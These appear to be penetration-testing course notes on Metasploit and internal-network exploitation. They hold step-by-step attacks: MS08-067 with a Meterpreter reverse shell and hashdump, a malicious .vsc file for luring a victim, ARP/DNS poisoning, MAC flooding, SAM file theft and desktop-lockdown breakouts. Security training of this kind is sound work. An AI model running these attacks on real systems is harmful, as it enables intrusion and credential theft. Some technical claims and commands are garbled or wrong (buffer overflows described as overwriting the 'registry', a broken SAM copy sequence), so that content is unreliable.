  ```

  

  

### Exploit Frameworks

1. **Metasploit**

- Open source
- Extensive library of exploits
  

**2. Canvas**

- Commercial
- Linux based
  

**3. Core Impact**

- Commercial
- High-end => expensive

### Identify Local/Remote Exploit to Gain Access to Windows System

 

### Try to Gain Access to Windows using Remote Shell
Windows store its encrypted passwords inside a file called SAM file. Passwords in this file are stored in hashed format. The file is located in c:\windows\system32\config\sam directory. If you can gain access to the administrative system, then the copy of the encrypted passwords can be grabbed.

A trusted framework hacking tool, Metasploit, will be helpful in grabbing this SAM file. Metasploit is a framework for cyber exploitation. It makes our effort easy in exploiting the known vulnerabilities. Meterpreter that was developed by Metasploit makes maintaining access and controlling easier when installed into a target system. 

Following are the steps to be followed to gain access to remote Windows system through
identified exploits:

- Search in metasploit for netapi

  Syntax: msf > search netapi

- Then, you can use any one of the results you got in the search.
  Syntax: msf > use exploit/windows/smb/ms08_067_netapi


- Then, you can set the payload to the Meterpreter by using the following command:
  Syntax: msf exploit (ms08_067_netapi) > set payload /windows/meterpreter/reverse_tcp


- Then, you check the payload options by using the following command:
  Syntax: msf exploit (ms08_067_netapi) > show options


- Then, set both LHOST (the IP address of our computer) and RHOST (the IP address of the victim computer)
  Syntax:

  ```
  msf exploit (ms08_067_netapi) > set lhosts <the IP address of our computer>
  msf exploit (ms08_067_netapi) > set rhosts <the IP address of the victim computer>
  ```


- Now after performing all the previous steps, you can run the exploit command to perform the exploitation:
  Syntax: msf exploit (ms08_067_netapi) > exploit
- You will obtain Meterpreter reverse shell (terminal prompt) on target Windows system. Then, use the Meterpreter’s hashdump command to extract password hashes.
  Syntax: meterpreter > hashdump


- After fetching the hashes, you can use password cracker tools such as **Hashcat** to crack the obtained hashes.

### Try to Exploit Buffer Overflow Vulnerability on Windows

A buffer overflow involves overriding the crucial registry portions and modifying internal variables with random values to control the execution of the process or to crash it completely. Stack buffer overflow overflows the registry stack, and when you send large number of specially crafted packets to the vulnerable application, it executes the arbitrary code, allowing you to successfully overflow the stack and take over the machine.

- Identify the existence of local buffer overflow vulnerability. To perform buffer overflow attack, identify the existence of local buffer overflow vulnerability or any application that is vulnerable to buffer overflow attacks. You can search and download the vulnerability from the Exploit Database. For example, as shown in the screenshot, download the VideoCharge Studio 2.12.3.685—Local Buffer Overflow (SEH) exploit which can enable a stack-based buffer overflow attack on target Windows machine. VideoCharge Studio allows remote user to gain privileges via a malicious file, that is, a
  .vsc file.


-  After identifying the vulnerable application for buffer overflow that exists on the target Windows, you can exploit the victim machine remotely by executing arbitrary code on the target machine by luring the victim to download and execute the created malicious .vsc file.

  Follow the below steps to create payload in Metasploit:

  - Open the Parrot terminal and type msfconsole
  - Now, type, use exploit/windows/fileformat/videocharge_studio
  - Then, type, set payload windows/meterpreter/reverse_tcp
  - Then, set the lhost by using command set lhost [Local IP]
  - After configuring Lhost, create the .vsc malicious payload by executing exploit. Then, you can see that the msf.vsc malicious file will be saved at /root/.ms4/local/location.


- After creating the payload, you need to set up a listener to handle reverse connection that is sent by the victim machine when the exploit is executed successfully.

  Follow the below steps to set up a listener:

  -  use exploit/multi/handler
  - set payload windows/meterpreter/reverse_tcp
  - set lhost <local IP address>
  - exploit

- After enabling the listener, send the payload to target victim machine and trick the victim to download and run the file. The execution of VideoCharge Studios malicious file on the target machine will crash due to buffer overflow. 


- As soon as the victim downloads or opens the malicious file, you can access Meterpreter shell of the victim computer on the listener that you have enabled earlier. You will also gain access to Windows using Remote Shell.


### Metasploit
- Most popular
- Extensive exploit library
- Scanning auxiliary modules
- Comprehensive types of payloads
- Written in Ruby an interpretive language

#### Finding Exploits in Metasploit
- Use the search feature

  - Can locate exploits and scanner modules

    ```
    msf6 > search ms17-010
    
    Matching Modules
    ================
    
       #  Name                                      Disclosure Date  Rank     Check  Description
       -  ----                                      ---------------  ----     -----  -----------
       0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
       1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
       2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
       3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
       4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
    ```

#### Exploit Wordpress with Metasploit
- Use wpscan to find vulnerable plugins

  ```
  wpscan --url <Path to App> --enumerate p
  ```

  

#### Locate the Plugin Exploit
- Search InBoundio

- Use exploit/unix/webapp/wp_inboundio_marketing_file_upload

  ```
  msf6 > search InBoundio
  
  Matching Modules
  ================
  
     #  Name                                                    Disclosure Date  Rank       Check  Description
     -  ----                                                    ---------------  ----       -----  -----------
     0  exploit/unix/webapp/wp_inboundio_marketing_file_upload  2015-03-24       excellent  Yes    Wordpress InBoundio Marketing PHP Upload Vulnerability
  
  
  Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_inboundio_marketing_file_upload
  ```

- Exploiting InBoundio

  

#### Metasploit Auxiliary

- There are a number of modules that can be used for scanning etc.
- Use auxiliary/scanner/http/wordpress_login_enum


#### Metasploit Ranking
- Identifies the success rate of the exploit

- Preference is great or better

  - Can still attempt, but success rate goes down

- Remember exploitation is not 100%!

#### Targets
Not all targets will have exploit code

- Document and move on

- Write your own

Auto may not work


#### Payload

- There are an extensive number of payloads in Metasploit
- By default Metasploit gives you a meterpreter shell
  - Might not be successful
  - When the payload fails
    - Select another
      - Generic bind shell is usually easiest


#### Shell Options
- Default Metasploit port is 4444
- Change it to something else
  - NTP
    - 123
- Want a port that is not proxied and can egress out
  - Makes 80 etc. bad choices in most cases
- Set Iport 123

#### Reverse Shell
- The victim sends the shell back to you
- Required for egressing out of a firewalled or filtered environment

```
msf6 > use exploit/windows/smb/ms06_025_rasmans_reg
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms06_025_rasmans_reg) > show options 

Module options (exploit/windows/smb/ms06_025_rasmans_reg):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<p
                                       ath>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  router           yes       Rawr.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.101.116  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2000 SP4
```

#### Meterpreter Shell

- Loaded into memory
- Privilege escalation routines
- Automated enumeration from victims
- Complex uploads and downloads
- Process migration
- Can load as a persistent service => meterpreter > run metsvc
- Ability to grab password files
- Facilities to route new attacks through first victim

#### Metasploit Staged Payloads
STAGED - WINDOWS/METERPRETER/REVERSE_TCP

- Payload that is as compact as possible and performs the single task of providing the means for an attacker to upload something bigger
- Used in exploit scenarios due to the fact that binary exploitation often results in very little space for
  shellcode to be stored
- Initial shellcode (often referred to as stage0) may create a new connection back to the attacker's
  machine and read a larger payload into memory

#### Metasploit Staged Payloads in Memory


#### Staged Payload Size
- The size required for the staged payload can be a problem, an example is as follows:

  - Stage0: large buffer of junk plus approximately 350b of shellcode

  - Stage1: metsrv DLL approximately 755kb

  - Stage2: stdapi DLL approximately 370kb

  - Stage3: priv DLL approximately 115kb

- This weighs in at a grand total of approximately 1,240kb! Not a small amount

#### Metasploit Stageless Payload CF
- A binary that includes all of the required parts of Meterpreter, along with any required extensions, all
  bundled into one

  

#### Metasploit Architecture


- **REX**

  Handlesall core functions
  - Socket connections and all raw functions
  
- **MSF CORE**
  Provides the basic API and core that describes the framework
  
- **MSF BASE**
  Provides Additional support to modules

- **Payloads**
  This is used to carry out operations such as connecting to or from the target system after exploitation or performing a specific task such as installing a service and so on. Payload execution is the next step after the system is exploited successfully
  
- **Auxiliary**
  Auxiliary modules are a special kind of module that performs specific tasks such as information gathering, database fingerprinting, scanning the network in order to find a particular service and
  enumeration, and so on

- **Encoders**

  Encoders are used to encode payloads and the attack vectors in order to evade detection by antivirus
  solutions or firewalls

- **NOPs** (No Operations)

  NOP generators are used for alignment which results in making exploits stable 

- **Exploits**
  
    The actual code that triggers a vulnerability

#### Metasploit Libraries

- Currently, we have core libraries for exploits, payload, post-exploitation, encoders, and various other
  modules

```
┌─[root@parrot]─[/usr/share/metasploit-framework/lib/msf/core/exploit]
└──╼ #ls -X
cmd_stager  auto_target.rb    egghunter.rb      java_deserialization.rb  oracle.rb      rop_db.rb
format      brute.rb          exe.rb            java.rb                  pdf_parse.rb   seh.rb
local       brute_targets.rb  file_dropper.rb   jsobfu.rb                pdf.rb         sqli.rb
powershell  capture.rb        fileformat.rb     kernel_mode.rb           php_exe.rb     tftp_server.rb
remote      cmd_stager.rb     format_string.rb  local.rb                 powershell.rb  view_state.rb
sqli        dect_coa.rb       git.rb            ntlm.rb                  remote.rb      wbem_exec.rb
android.rb  dhcp_server.rb    http.rb           omelet.rb                riff.rb        windows_constants.rb
```

#### Metasploit Skelethon Module

```
require 'msf/core'

class MetasploitModule < Msf::Auxiliary
  def initialize(info = {})
    super (update_info(info,
      ‘Name’ => 'Module name',
      ‘Description’ => %q{
        Say something that the user might want to know.
	  },
	  'Author’ => [ 'Name' ],
      ‘License’ => MSF_LICENSE
    ))  
  end
  def run
    # Main function
  end
end
```

#### Sample Module

- Let's work with a simple module for an HTTP version scanner and see how it actually works
- The path to this Metasploit module is:
  /modules/auxiliary/scanner/http/http_version.rb

#### Module Breakdown Part One 

- The path to all the files from the /lib/rex/proto/http directory is now available to the module
- All these files contains a variety of HTTP methods, which include functions to set up a connection, the GET and POST request, response handling

```
┌─[root@parrot]─[/usr/share/metasploit-framework/lib/rex/proto/http]
└──╼ #ls -X
handler  packet  client.rb  client_request.rb  handler.rb  packet.rb  request.rb  response.rb  server.rb
```

#### Module Breakdown Part Two 
- This section includes all the necessary library files that contain methods used in the modules


#### Module Breakdown Part Three
- This part of the module defines the initialize method, which initializes the basic parameters such as Name, Author, Description and License for this module and initializes the WMAP parameters as well


#### Module Breakdown Part Four
- This contains the code components of the scanner


#### Metasploit Exploits
- Uses Ruby classes and mixins
- Process
  - Modify a template
  - Add classes and initialize

#### Metasploit Mixins
- Capture - Sniff network packets
- Lorcon - Send raw Wifi frames
- MSSAQL - Talk to Microsoft SQL servers
- Kernel Mode - Exploit kernel bugs
- SHE - Structured exception handling
- NDMP - The network backup protocol
- EggHunter - Memory search
- FTP - Talk to FTP servers
- FTPServer - Create FTP servers

#### Initialization Method
- Name
- Description
- Payload parameters
- Target information


#### Add an Exploit to Metasploit

- Exploits we create are not in Metasploit
- If anew exploit comes out we have to get it into Metasploit
  - Download or copy it
  - Place it in the location within Metasploit
    - Default
      - /usr/share/Metasploit-framework/modules/exploits

```
#cd /usr/share/metasploit-framework/modules/exploits/
┌─[root@parrot]─[/usr/share/metasploit-framework/modules/exploits]
└──╼ #ls
aix        bsd     example_linux_priv_esc.rb  example_webapp.rb  hpux   mainframe  openbsd  solaris
android    bsdi    example.py                 firefox            irix   multi      osx      unix
apple_ios  dialup  example.rb                 freebsd            linux  netware    qnx      windows
┌─[root@parrot]─[/usr/share/metasploit-framework/modules/exploits]
```

#### Uploading into Metasploit
- Once we have copied the exploit into the folder
- We need to reload Metasploit so it knows about the exploit
  - reload_all


#### Repetitive Tasks 

- Any professional will script their attacks, you can create a file with the commands in and copy paste it into the msfconsole
- Resource Scripts
  - Easy way for you to automate repetitive tasks in Metasploit
  - Just like batch scripts
  - Contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit


#### Resource Scripts
- To create a resource script

  ```
  makerc
  ```

  

  

- To run a resource script

  ```
  ./msfconsole -r <path to resource script>
  ```


### Unix/Linux Exploitation

After identifying the vulnerabilities related to the target operating system, if you find the installed OS on the victim machine is UNIX/LINUX, then you need to attempt various techniques to exploit the UNIX/LINUX operating system to gain the root access or escalate privileges.

#### Identify Local/Remote Exploit to Gain Root Access

- Search for local/remote exploit to gain access to vulnerable Unix/Linux systems 


#### Try to Gain Access to Linux using Remote Shell

- Identify the vulnerabilities on a specific version of Unix/Linux OS
- Search the exploits that will provide remote shell to the target
- Try to exploit the target Unix system to gain remote shell
- After successful attempt to gain remote shell to target machine, list out the directories and files
  that exist on the remote system with ls command


#### Extract User Accounts

Navigate to /etc/passwd file to extract all the user accounts of the remote system


**Extract User Accounts**
The root user owns the etc/passwd file. All the users can read the file, but only the root user has writable permissions.
The etc/passwd file contains the following information:

- User name

- Encrypted password

- User ID number (UID)

- User's group ID number

- Full name of the user (GECOS)

- User home directory

- Login shell

Navigate to /etc/passwd file to extract all the user accounts of the remote system.

### Other Internal Network Exploitation Techniques

Apart from the exploitation techniques that are mentioned in the previous sections, you can
also attempt various other exploitation techniques to escalate privileges or gain access to the
target machine present in the network.

#### Attempt Replay Attacks
1. Using a replay attack, an attacker intercepts and passively listens to the network traffic and resends the stream —., to one or more of the parties
2. It sniffs the password hashes off the wire and replays the same password on the target machine
3. Tools: LOphtcrack, Ophcrack, RainbowCrack, etc.


You can use tools like LOphtCrack, RainbowCrack, Cain & Abel, and OphCrack for this attack:

**LOphtCrack**
Source: http://www./Ophtcrack.com
This tool allows you to recover, assess, and decode hashes and judge passwords through password scanning, dictionary lookup, and brute-force attacks.

**RainbowCrack**
Source: http://project-rainbowcrack.com
The RainbowCrack hash cracker tool audits password policies. This tool operates by comparing the precalculated password hash value with that of the operating system. RainbowCrack runs on both Windows and Linux machine; you can download Windows version of RainbowCrack from the following link http://project-rainbowcrack.com

**Cain & Abel**
Source: http://www.oxid.it
Passwords can be sniffed using the Cain & Abel tool. This password recovery tool uses password calculators and decoders to crack common hashes and specific authentication hashes, as well as to calculate common hash algorithms.

#### Attempt ARP Poisoning

Attempt ARP poisoning on the router. ARP poisoning technique can be used to sniff through a switch. ARP resolves IP addresses to MAC (hardware) addresses. When a network device sends an ARP request, it does not verify whether the ARP reply received came from the intended device. In fact, many operating systems implement ARP so trustingly that devices that have not made any ARP requests will still accept ARP replies from other devices.

You can craft a malicious ARP reply that contains arbitrary IP and MAC addresses. Because the victim computer blindly accepts the ARP entry into its ARP table, this reply can force the victim computer to think that any IP is related to the MAC address you want. You can broadcast this faked ARP reply to the victim’s entire network. 

The diagram shown in the below figure depicts how the ARP poisoning is performed.


Following are the tools used to perform ARP poisoning:

##### Cain & Abel
Source: http://www.oxid.it
Cain & Abel is a password-recovery tool for Windows. It recovers passwords by sniffing the network, cracking encrypted passwords (using dictionary, brute-force, and cryptanalysis attacks), recording VoIP conversations, decoding scrambled passwords, recovering wireless-network keys, revealing password boxes, uncovering cached passwords, and analyzing routing protocols. The program does not exploit any software vulnerabilities or bugs that are not easy to fix. It covers some security aspects or weaknesses present in a protocol’s standards, authentication methods, and caching mechanisms.


**Steps for ARP Spoofing with Cain and Abel**

- Open the Cain and Abel tool and click on Configure to ensure that your device is ON
- Configuration Dialog box opens, click on the Sniffer tab, and select the adapter.
- After selecting the adapter, next click on Start/Stop Sniffer icon in the toolbar as shown below.


- Next click on Sniffer tab in the toolbar and then click on “+” blue button on the toolbar to add the hosts on the network.
- MAC Address Scanner window will open; select the Range radio button and specify the range of IP address which you want to scan.
- After specifying the range, check the All Tests check box and click on OK.


- The application begins ARP tests on the IP address range and displays in the Sniffer window as shown below.


- After completion of test, all MAC and their associated IP address that respond to the ARP requests are displayed.
- Now click on APR at the bottom of the tool, click anywhere on the topmost section (in the right pane) to activate the + icon.


- When the New ARP Poison Routing window opens, select the IP address between which you want to intercept traffic.
- After selecting the first target, a list of IP address excluding first target appears on right pane. Now select the second IP address as shown below.


- The selected targets appear on the top section, now click on Start/Stop APR button to initiate ARP poison routing attack.
- After selecting the option, the status of targets changes from Idle to Poisoning as shown below.


#####  WinArpAttacker
WinArpAttacker scans, attacks, detects, and protects computers on a LAN. It sends IP conflict packets to target computers as fast as possible and diverts all communications. 

It can perform the following attacking actions:

- Arp flooding
- BanGateway
- IPConflict
- SniffGateway
- SniffHosts
- Snifflan


##### Arpspoof
Source: https://su2.info
The arpspoof tool comes with the Dsniff collection of tools. Arpspoof redirects packets from a target host (or all hosts) on the LAN to another host on the LAN by forging ARP replies. This is an effective way of sniffing traffic on a switch.

##### Arpoison
Source: http://www.arpoison.net
This UNIX-based command-line tool creates ARP replies. It sends spoofed ARP replies to the target by specifying source and destination IP and MAC addresses.

##### Ettercap

Source: http://ettercap.sourceforge.net
Ettercap allows you to sniff live LAN connections. This tool automates all operations. 

Steps for ARP poisoning using Ettercap:

Ettercap supports Debian/Ubuntu, Gentoo, Pentoo, and Fedora operating systems and it can be installed on other Linux versions and also on Windows.

- First open the Linux terminal and type the command to install Ettercap:

  ```
  sudo apt-get install ettercap
  ```

- Install some dependencies to enable Ettercap to work properly

  ```
  # sudo apt-get install debhelper cmake bison flex libgtk2.0-dev libltd13-dev libncurses-dev libncurses5-dev libneti-dev libpcap-dev libpcre3-dev libssl-dev libcurl4-openssl-dev ghostscript
  ```

- Ettercap run in two modes:

  - Text mode

  - GUI mode

- Type the following command to install GUID mode:

  ```
  ettercap -G
  ```

  **Note**: It provides four user interfaces:

  - -T use text only GUI

  - -C use curses GUI

  - -D daemonize Ettercap (no GUI)

  - -G use GTK + GUI

- The above command opens the Ettercap main window, now select the interface. After selecting the interface, scan the hosts to see all the live hosts and carefully select the targets from the list.
  
- After selecting the two targets from the list, go to MITM and click ARP poisoning, thereafter check the “Sniff remote connections” from the MITM attack: ARP poisoning dialog box as shown below.


- In the next step, click on “start sniffing” that enables the ARP poisoning in the network

- If any victim has signed into some website, the results can be seen in the toolbar of Ettercap as shown below


#### Attempt Mac Flooding 
- MAC flooding is an ARP cache poisoning technique aimed at network switches

- Flood the CAM table on the switch with fake MAC address and IP pairs until it is full

- This will change the behavior of the switch to reset it to its learning mode, broadcasting on every port, similarly to a hub_

  

##### Macof

Source: https://sectools.org

The macof tool allows you to flood the LAN switch with random MAC addresses. Macof floods the LAN switch with 150,000 Ethernet packets per minute and tries to alter routing or ARP tables. Changes in these tables facilitate sniffing and entering the network. Macof tool comes in handy during penetration testing; this can be used when some switches do not allow to spoof arp packets; in such cases, this tool helps to check if the switch is overloaded.

Syntax: # macof [-i interface] [-s src] [-d dst] [-e tha] [-x sport] [-y dport] [-n times]

Options:

-i [interface to send on]

-s [source IP address]

-d [destination IP address]

-e tha [target hardware address]

-x sport [TCP source port]

-y dport [TCP destination port]

-n times [number of packets to send]

- To perform simple flooding using macof, use the following command:

```
macof -i eth1 -n 15
```


- To perform targeted flooding using macof, use the following command:

  ```
  macof -i ethO -d [IP address] -n 25
  ```

  

#### Conduct a Man-in-the-Middle Attack
- One of the most successful methods for gaining control of customer information and resources is through Man-in-the-Middle attacks
- In this attack, the attacker is situated between the customer and the real web-based application and proxies all communications between the systems


MITM attacks can be conducted inside the network by using the following techniques:

- **DNS cache poisoning**

  You can send false replies to DNS server requests for IP addresses. The tester can then try to direct the victim system to a fake site.

  The following tools can be used to carry out DNS cache poisoning:

  - **DNSA**

  - **Dnsspoof**

  - **TinyDNS**

  - **DNSCache**

    

- **ARP spoofing**

  You can send spoofed ARP replies to application systems, identifying them as coming from the victim’s system. Similarly, you can send spoofed ARP replies to the victim’s system, identifying them as coming from the application system.

  **ARP spoofing attacks**

  Basically, ARP spoofing used to steal the confidential data from companies, apart from this ARP spoofing attacks, can be used in other attacks like:

  - **Denial-of-service attacks**
    ARP spoofing attack helps in linking multiple IP address in a LAN with a single target’s MAC address due to which the traffic directed to different IP address is redirected to the single target’s MAC address and results in overloading the target with traffic.
  - **Session hijacking**
    With the help of ARP spoofing, the session IDs can be easily stolen, thus allowing you to access the confidential data.

- MITM **attacks**
  MITM attacks can be performed by using ARP spoofing to intercept and/or to modify traffic between the two victims.

  

Similar steps of a typical ARP spoofing include:

* You must download some of the popular ARP spoofing software, such as arpoison, arpspoof, Ettercap, and Parasite; after downloading the tool, you must set the tool’s IP address to match the IP address of a target.
* You can use tool and scan for MAC and IP addresses of hosts in the target’s subnet.
* After choosing the target, you can start sending ARP packet across the LAN which contains victim’s IP address and your MAC address.
* The other hosts on the LAN cache the spoofed ARP packets; the data from that hosts to the victim will directly go to you instead of victim. By this, you have successfully launched the ARP spoofing on target host.

#### Attempt DNS Poisoning 
- Domain Name System (DNS) resolves domain names into IP addresses

- It is also called DNS cache poisoning

- Using a DNS poisoning attack, an attacker injects fake records into the cache of a DNS server, corrupts the DNS tables, and redirects a victim to the malicious IP address

- It is mainly done by sending spam emails, ad banners, etc. that attract users to click on them 

Here is how it works:

- Every system has a hosts file in its systems directory; in the case of Windows, this file resides at the following location:

  - C:\Windows\System32\drivers\etc

- This file can be used to hard-code domain name translations and direct you to a different site

The following tools are used to carry out DNS cache poisoning:

##### Dnsspoof
Source: https://github.com
This tool can be obtained with the Dsniff package of tools. You can forge replies to DNS queries on the LAN by using this tool.

##### DNSA
Source: http://packetfactory.openwall.net
This is a Linux-based DNS security tool that is used for injecting forged DNS packets. 

Usage: ./dnsa [ARGS] 

-3DNS cache poisoning [Required: -S AND -b AND -a]

-a [host.domain.org] -Hostname to send in the additional record
-b [IP]-IP to send in the additional record
-D [www.domain.org]-Hostname for query. Use it if you want to fool just on
-S [IP]-IP address to send for DNS queries (the normal one)
-s [IP]-IP address of the server to fool
-i [interface] -IP address to send for DNS queries
-h -Print usage

##### Example of a Normal Host File under DNS Poisoning Attack

You can poison the IP address DNS entries and replace them with the IP address of a server that is already being controlled; the change can be seen in the below screenshot.


#### Try to Log into a Console Machine
Try to log in to a remote console machine by using default passwords, as shown in the figure


Following are some of the easily guessable passwords to log in to a console machine:

- Blank passwords or no passwords
- Name of the user
- Similar or same passwords for all the systems in the network
- The name of the host
- Password related to a detail about the user
- Last name as password
- Temporary passwords (which may be the same for all systems)
- Password reminders are also helpful when trying to guess passwords.

#### Boot the PC using Alternate OS and Steal the SAM File
You can attempt to bypass system authentication by booting the PC using another operating system, such as Knoppix. Knoppix is an open-source live Linux CD. This Linux software is used to boot and run the PC using only the CD.

You can then use the following steps to steal the SAM file using the alternate operating system:

- Boot the system using Knoppix: Insert the Knoppix Live Linux CD and boot the system.
- Mount the system drive: Identify the system drive and mount it.
- Copy the SAM file to a pen drive: Screenshot in the given below shows the commands for mounting the system drive and copying the SAM file to a pen drive.
- Shutdown the system and remove the Knoppix CD: Also, remove the pen drive on which the SAM file was copied.

```
#mount -t vfat -o ro /dev/hdal /mnt/hdal
#cd /mnt/hdal/windows/system32/config/sam
#cp sam /dev/fd0
#umount /dev/hdal
#halt
```

#### Try to Break Down the Desktop Lockdown
Try to break down desktop lockdown security in Windows or Citrix Environment. By breaking down lockdown security, you can escalate privileges in Windows or Citrix Environment. 

Use some of the following techniques to breakdown the lockdown security: 

- **Dialog Box**
  - Acquire a dialog box using the keyboard shortcuts and application functionality.
  - Dialog boxes can allow the users to perform additional functions such as Windows Search.
  - They also help users to explore the system, escalate privileges, create new files, open a new Windows Explorer instance, explore context menu, etc.
  - Different methods of obtaining a dialog box include:
    - **Application functionality**: Use application functions such as save, save as, open, load, browse, import, export, help, search, scan, and print to open a dialog box.
    - **Shortcut keys**: Use shortcuts keys such as Ctrl + O for open and Ctrl + N for new.****


- Abusing the dialog box
  - Use the opened dialog box to escalate privileges through the following steps:
    - Create batch files: Right click > New > Text File > rename to .BAT (or .CMD) > edit > open.
    - Create shortcuts: Right click > New > Shortcut > ““WINDIR%\system32.”
    - Open anew Windows Explorer instance: Right click any folder > select “Open in
      new window.”
    - Explore context menus: Right click any file/folder and explore context menus.
    - Bypass file restrictions: Enter *.* or *.exe in “File name” box to view the executable files, right click on the file, and select open and run.


#### Sticky keys popup
- Pressing down the shift button five times to obtain sticky keys popup

  

- Click on the “Go to the Ease of Access Center to disable the keyboard shortcut” link.
- The Ease of Access Center window will allow to access explorer functionality through the address bar.


- **Use task manager**
  - Access the Windows Task Manager from the Start Menu or by pressing the Ctrl + Alt Delete or Ctrl + Shift + Escape keys simultaneously.
  - Use the task manager to run new processes or commands.

- **Access Help Menu**
  - Select the F1 button from the key board to access Microsoft help menus.
  - Use the links presented in Help Menu to access command prompt or other explorer functionality.

- **Command Prompt**
  - Command shell allows users to control certain functions of an operating system and escalate privileges.
  - Use the Run option by clicking the Windows button with R key.
  - Browse to the C:\windows\system32 folder, right click on the cmd.exe, and select Open as administrator option
  - Type the hyperlink file:///c:/Windows/System32/cmd.exe in the address bar.
  - Interactive and management consoles such as powershell.exe, FTP.exe, MMC.exe, Control.exe, RUNDLL32.exe, MSTSC.exe, and WMIC.exe can also help in breaking out of the locked down desktops.

- **Citrix ICA Hotkeys**
  - Use default Citrix hotkeys such as Ctrl + F1 to go the task manager, F1 to display online help, Ctrl + Alt toggle the console display between full screen mode and window mode, and Shift + F2 to toggle the applications from full screen and window mode.

- **Modifying ICA Files**
  - Citrix applications used for desktop lockdown require independent computing architecture (ICA) files to store the network settings.
  - These applications also use internal applications to define different functions.
  - Modify the parameters of such ICA files if the applications do not have password
    lock.

- **Internal Explorer Breakouts**
  - Lockdown applications access the desktops through browsers, such as edge and chrome.
  - Breakout of such applications using address bar, search menus, help menus, and print menus

- **Default/Weak Credentials**
  - Lockdown applications may also use default passwords and credentials for administrator logins.
  - Try different default usernames and passwords to gain access to these applications.

#### Escalate User Privileges
Operating systems have built-in security systems that protect them from unauthorized access. For this purpose, different types of users and user groups can be created with varying system access powers such as administrator and user. A normal user does not have the privileges to access all the resources of the system. Attackers generally try to get into a system as a normal user with limited privileges, and after entering the attacked system, try to escalate their privileges so that they can further compromise the system. So, as a penetration tester, attempt to escalate user privileges to the level of administrator.

#### Active@ Password Changer

Source: https://www.password-changer.com

Active@ Password Changer Professional is an easy to use application that lets you reset user account passwords. It does exactly what it says, maybe even a bit more with its additional features.

Features

- Recovers passwords from multiple partitions and hard disk drives.

- Detects and displays all Microsoft Security Databases (SAM).

- Displays full account information for any local user.


##### BeRoot

Source: https://github.com

This tool is mainly used to check any common Windows misconfiguration to discover any way to escalate the user privileges. It is a post-exploitation module which will execute in the memory without touching the disk. It is used only to detect but not to exploit; in case if anything is found, then templates could be used to exploit it. To use it, create test.bat file located next to the / DLL used, it will execute once it is called. It may
not work based on the redistributable packages installed on the target host.


#### Hide Sensitive Data on Target Machines

Hiding sensitive data prevent other users from reading the file and identifying key information. You can hide data on the target machine. The following data items should be hidden on target machines:

- **IP addresses**: An IP address is a unique Internet identifier for a local or a remote system connected to the Internet.

- **Source code**: This is the piece of code written by a developer in a high-level language. This code gets converted into machine code after compilation. To prevent this code from getting copied and being misused, it is a good idea to hide the source code.

- **Pictures**: Hide all pictures that carry sensitive information on the system and also hide photographs to prevent morphing, and so on.

- **Word documents and spreadsheets**: Word documents and spreadsheets that carry various details, particulars, and other sensitive information should also be hidden.

You can use tools such as Free Hide Folder and WinMend to hide the files and folders.

##### Free Hide Folder

Source: http://www.cleanersoft.com
It is a free computer security software used to hide private folders and personal data away from others. You can use this tool on the target machine to hide the personal data  of the victim and lock it away from him to access.

**Key features:**

- It hides the folder completely; nobody can view or find it unless it is unhide.
- It provides password protection when running a program.
- No need of files system structure modifications.
- Easy to use and user friendly.
- User can hide any number of folders at the same time.


#### Use Various Steganography Techniques to Hide Files on Target Machines
With steganography, sensitive information can be hidden in images and text. This can prevent the easy recognition of vital files. Attempt to hide information in images and simple text files. You can use tools like QuickStego Software and SNOW to perform steganography. Load the image into QuickStego (or QuickCrypto) and the secret text that was hidden in the photograph. 

##### QuickStego

Source: http://quickcrypto.com

QuickStego lets you hide secret messages in images so that only other users of QuickStego can retrieve and read them. Once you hide a secret message in an image, you can still save it as picture file; it will load just like any other image and appear just as before. The user can save, email, and upload the image to the web, and the only difference will be that it contains hidden message.

Features:

- Conceals information in folders, images, and sounds
- Keeps all online and offline passwords safe
- Recovers deleted files on NTFS and FAT systems
- Prevents recovery of sensitive files (even already deleted)
- Removes temporary and audit files
- Views and shreds Internet browser tracing files
- Tests passwords and attempt password recovery
- Monitors system for potential security flaws

It is simple to hide the confidential text in the image, first open the tool, and select the image of your wish to add secret message or text. After selecting the image, type the message at the right side of the image as shown below. After that, click on Hide Text and then on the Save Image. The image will be saved with .BMP bitmap extension. Now, this file will contain both image and message but the message cannot be seen. The
receiver needs to load the image on QuickStego to reveal the secrete message.


#### Capture Communications between FTP Client and FTP Server

FTP enables clients to share files between computers over the Internet. But this protocol fails to provide encryption, so you can sniff data easily as well as user credentials by running tools. You can use tools like FTP traffic to capture the communications between an FTP client and an FTP server. FTP traffic capture (ftp_capture.acp) records the results of communication between an FTP client and an FTP server.

Another way to capture the FTP traffic is by using the actual ports. By default, the FTP port listens on port no 20 and 21. You can capture the traffic by using Wireshark tool, type the following filter string in the filter bar and press Enter. 

tcp.port==20 or tcp.port==21



#### Capture HTTPS Traffic (Even though it cannot be Decoded)
Capture HTTPS traffic (even though it cannot be decoded). IE HTTP analyzer is a utility that allows you to capture HTTP/HTTPS traffic in real time.

##### IE HTTP Analyzer

Source: https://www.ieinspector.com
IE HTTP Analyzer is a useful developer tool used for debugging, performance analysis, and diagnostic. It can be integrated into the IE or Firefox browsers in Windows and easily accessed from the IE or Firefox toolbar. It is used to capture the HTTP/HTTPS traffic in real time and allows to trace and display information regarding the Cookies, Content, Header, Post data, Query String, Request and Response team, URLs, and so on. Also, it provides cache information, HTTP status code information, and session clearing information. This tool has a request builder that allows to handcraft a HTTP/HTTPS request.

